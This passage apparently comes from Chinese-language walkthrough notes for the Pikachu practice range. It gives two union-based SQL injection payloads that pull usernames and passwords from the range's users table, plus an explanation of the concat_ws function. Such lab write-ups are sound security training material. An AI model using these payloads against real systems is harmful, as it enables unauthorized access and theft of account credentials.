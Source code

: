```sql
?id=-1 union select 1,group_concat(username),group_concat(password) from pikachu.users--+
```

![image-20230814214926228](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814214926228.png)

```sql
?id=-1 union select 1,group_concat(concat_ws("-",username,password)),3 from pikachu.users--+
```

==`concat_ws`将多个字符串连接成一个字符串，第一个参数指定分隔符，分隔符不能为null，如果为null，则返回结果为null==

![image-20230814215055839](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230814215055839.png)

[concat_ws函数和concat函数的区别](https://blog.csdn.net/Ajdidfj/article/details/123246593)
